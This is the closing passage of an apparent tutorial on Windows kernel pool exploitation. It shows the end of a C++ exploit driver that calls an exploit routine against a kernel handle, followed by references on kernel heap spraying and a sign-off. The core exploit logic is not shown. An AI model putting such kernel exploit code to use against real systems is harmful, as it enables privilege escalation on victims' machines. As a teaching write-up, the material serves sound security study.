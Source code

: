 ```cpp
			CloseHandle(Events[u]);
			Events[u] = 0;
		}
	}

	Sleep(500);

	if (!exploit(hFile, addrKrnl)) {
		printf("\n[ERROR on EXPLOITATION o_0]\n");
		CloseHandle(hFile);
		return -1;
	}
	
	return 0;
}
```

### References
- Windows Internals 1, 7th Edition
- [Sheep Year Kernel Heap Fengshui: Spraying in the Big Kids' Pool](https://www.alex-ionescu.com/kernel-heap-spraying-like-its-2015-swimming-in-the-big-kids-pool/)
- [Exploit Development: Swimming In The (Kernel) Pool - Leveraging Pool Vulnerabilities From Low-Integrity Exploits, Part 1](https://connormcgarr.github.io/swimming-in-the-kernel-pool-part-1/)
- [Exploit Development: Swimming In The (Kernel) Pool - Leveraging Pool Vulnerabilities From Low-Integrity Exploits, Part 2](https://connormcgarr.github.io/swimming-in-the-kernel-pool-part-2/)

### Closing
This was a demonstration of how to use the kernel pool to our advantage. It sets a precedent for more advanced future exploitation techniques.

Good morning, and in case I don't see ya: Good afternoon, good evening, and good night!
